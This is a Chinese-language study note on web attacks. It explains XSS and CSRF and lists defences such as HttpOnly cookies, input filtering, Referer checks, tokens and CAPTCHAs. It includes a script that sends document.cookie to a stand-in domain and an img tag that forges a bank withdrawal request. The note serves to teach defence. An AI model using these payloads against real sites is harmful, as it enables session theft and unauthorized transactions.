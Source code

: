 [TOC]

## 常见攻击方式

### XSS

跨站脚本攻击，可以将代码注入到用户浏览的网页上，这种代码包括`HTML`和`JavaScript`

+ 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容

```html
<script>localtion.href="//domain.com/?c="+document.cookie</script>
```

之后该内容可能会被渲染如下

```html
<p><script>location.href="//domain.com/?c="+document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到domain.com并携带了当前作用域的Cookie。如果这个论坛网站通过了Cookie管理用户登陆状态，那么攻击者就可以通过这个Cookie登陆被攻击者的账号了。

+ 防范手段
    + 设置Cookie为HttpOnly
    > 设置了HttpOnly的Cookie可以防止JavaScript脚本调用，就无法通过document.cookie获取用户Cookie信息
                                 
    + 过滤特殊字符
    > 将前端提交的内容进行转义过滤。富文本编辑器允许用户输入HTML代码，就不能简单的进行转义过滤了，通常采用XSS filter来防范XSS攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的HTML代码的输入

### CSRF

跨站请求伪造，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作(如发邮件，发消息，甚至财产操作如转账和购买商品)。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行

> XSS利用的是用户对网络的信任，CSRF利用的是网络对用户浏览器的信任

+ 攻击原理

假如一家银行用以执行转账操作的URL的地址如下
```html
http://www.examplebank.com/withdraw?account=AccountName&amount=10000&for=PayeeName
```
那么一个恶意攻击者可以在另一个网站上放置如下代码
```html
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman"/>
```

+ 防范手段
    + 检查`Referer`首部字段
        > 检查这个首部字段并要求请求来源的地址在同一域名下，可以极大的防止CSRF攻击
    + 添加校验Token
        > + 访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。
        > + 切记不要让客户端使用随意的值就通过验证，否则前端完全可以自己生成UUID值进行攻击。                
    + 输入验证码
        > 因为CSRF攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作
                